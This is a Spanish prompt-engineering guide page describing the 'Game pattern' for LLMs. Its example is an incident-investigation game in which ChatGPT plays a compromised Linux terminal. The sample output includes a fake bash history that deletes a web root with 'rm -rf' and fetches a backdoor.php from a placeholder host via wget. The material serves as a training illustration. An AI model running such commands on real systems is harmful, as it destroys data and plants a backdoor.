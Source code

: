 <div align=right>

|[![](https://img.shields.io/badge/-Inicio-FFF?style=flat&logo=Emlakjet&logoColor=black)](/README.md) [![](https://img.shields.io/badge/-Introducción-FFF?style=flat&logo=abbrobotstudio&logoColor=black)](/documentos/intro.md) [![](https://img.shields.io/badge/-Modelos_de_lenguaje-FFF?style=flat&logo=LiveChat&logoColor=black)](/documentos/LLMs.md) [![](https://img.shields.io/badge/-Panorámica-FFF?style=flat&logo=openstreetmap&logoColor=black)](/documentos/panoramica.md)<br>  [![](https://img.shields.io/badge/-Prompts-FFF?style=flat&logo=Proton&logoColor=black)](/documentos/prompts/README.md) [![](https://img.shields.io/badge/-Ing,_de_prompts-FFF?style=flat&logo=googleearthengine&logoColor=black)](/documentos/ingenieriaDePrompts/README.md) [![](https://img.shields.io/badge/-Patrones-FFF?style=flat&logo=textpattern&logoColor=black)](/documentos/ingenieriaDePrompts/patrones/README.md) [![](https://img.shields.io/badge/-Casos_de_uso-FFF?style=flat&logo=gitbook&logoColor=black)](/documentos/casosDeUso/README.md)|
|-:|

</div>

# Patrón de Juego

[💬](https://chat.openai.com/share/22b54976-a727-4ef3-88fe-41d0697345b3)

## Intención y Contexto

La intención de este patrón es crear un juego en torno a un tema determinado. El patrón puede combinarse con el Generador de Visualización para añadir imágenes al juego. El juego se centra en un tema específico y el LLM guiará el juego. Este patrón es particularmente efectivo cuando las reglas del juego son relativamente limitadas en alcance, pero se espera que el contenido del juego sea amplio. El usuario puede especificar un conjunto limitado de reglas y luego el LLM puede automatizar la generación de contenidos para el juego.

## Motivación

Te gustaría que el LLM generase escenarios o preguntas en torno a un tema específico y requerir que los usuarios apliquen habilidades de resolución de problemas u otras habilidades para lograr una tarea relacionada con el escenario. Generar todo el contenido para el juego manualmente sería demasiado tedioso, sin embargo, te gustaría que el LLM aplicase su conocimiento sobre el tema para guiar la generación de contenido.

## Estructura e Ideas Clave

Declaraciones contextuales fundamentales:

|Declaraciones Contextuales
|-|
Crea un juego para mí en torno a X
Una o más reglas fundamentales del juego

La primera declaración instruye al LLM a crear un juego y proporciona el enfoque importante del juego a un área temática. Una de las capacidades importantes del patrón es que permite al usuario crear juegos describiendo las reglas del juego, sin tener que determinar el contenido del juego. Cuanto más específico sea el tema, típicamente el juego será más novedoso e interesante.

La segunda declaración presenta las reglas del juego al LLM. Es importante que las reglas se ajusten a las capacidades del LLM. Los juegos textuales que dependen de secuencias de texto de entrada y salida funcionan mejor. Uno de los atributos clave del patrón es que el texto de entrada puede ser rico y expresivo, lo que puede llevar a interfaces interesantes para el juego. Por ejemplo, el usuario podría expresar acciones en el juego como scripts que dictan una secuencia de acciones complejas, como "obtener un listado de toda la actividad de la red y comprobar si hay anomalías", lo que va más allá del alcance de las entradas de opción múltiple o respuesta corta. Cada regla debe proporcionarse como una declaración separada con respecto a algún aspecto del juego.

## Ejemplo de Implementación

A continuación se muestra un ejemplo de un juego sobre ciberseguridad:

> "Vamos a jugar a un juego de ciberseguridad. Vas a pretender ser un terminal Linux de un ordenador que ha sido comprometido por un atacante. Cuando escriba un comando, vas a mostrar el texto correspondiente que el terminal Linux produciría. Voy a usar comandos para intentar descubrir cómo fue comprometido el sistema. El ataque debería haber hecho una o más de las siguientes cosas: (1) lanzado nuevos procesos, (2) cambiado archivos, (3) abierto nuevos puertos para recibir comunicación, (4) creado nuevas conexiones salientes, (5) cambiado contraseñas, (6) creado nuevas cuentas de usuario, o (7) leído y robado información. Para comenzar el juego, imprime un escenario de lo que sucedió que llevó a mi investigación y haz que la descripción tenga pistas que pueda usar para comenzar."

Este juego de ciberseguridad combina varios patrones, incluyendo el de Juego y el de Personalidad. La personalidad del terminal Linux que se elige para el juego [ha sido discutida en muchas publicaciones en Internet](https://www.engraved.blog/building-a-virtual-machine-inside/). Este juego personaliza aún más la personalidad de Linux discutida para actuar como un terminal Linux de un ordenador comprometido por un ciberataque. ChatGPT responde a los comandos de Linux con las salidas del terminal apropiadas y sintetiza un sistema de archivos falso que tiene pistas sobre un ciberataque.

Una muestra de la salida de este juego con ChatGPT después de escribir "ls -alt", el comando de Linux para generar una lista de archivos en el directorio actual se muestra a continuación (los permisos han sido eliminados por razones de formato):

```
total 56
 5 user user  4096 Feb 16 14:31 .
 1 user user 18881 Feb 16 14:31 .bash_history
43 user user  4096 Feb 16 14:30 ..
 1 user user  1178 Aug 15  2022 .bashrc
 1 user user   220 Aug 15  2022 .bash_logout
 3 user user  4096 Feb 16 14:25 .gnupg
 1 user user  4041 Feb 15 17:52 README.md
 2 user user  4096 Feb 1  11:35 project
```

Cuando el usuario luego escribió el comando "cat .bash history", para mostrar el contenido del archivo de registro que muestra los comandos ejecutados por el usuario, ChatGPT respondió con:

```
cd /var/www/html
sudo rm -rf *
sudo wget https://example.com/backdoor.php
sudo chmod 777 backdoor.php
exit
ls -alt
ps -ef
netstat -tulnp
```

En la salida anterior, ChatGPT generó un archivo de registro falso con comandos realistas para eliminar los datos que están siendo servidos por el servidor web en /var/www/html y reemplazar el contenido con una puerta trasera en el sistema.

## Consecuencias

Este patrón se puede combinar eficazmente con los patrones [Persona](persona.md), [Generación Infinita](generacionInfinita.md) y [Generador de Visualización](generadorDeVisualizacion.md). Por ejemplo, el juego de ciberseguridad utiliza el patrón de Persona para que el LLM pueda hacerse pasar por un terminal Linux. Para un juego de seguridad de red, el Generador de Visualización podría emplearse para agregar la capacidad de visualizar la topología de la red y los flujos de tráfico.

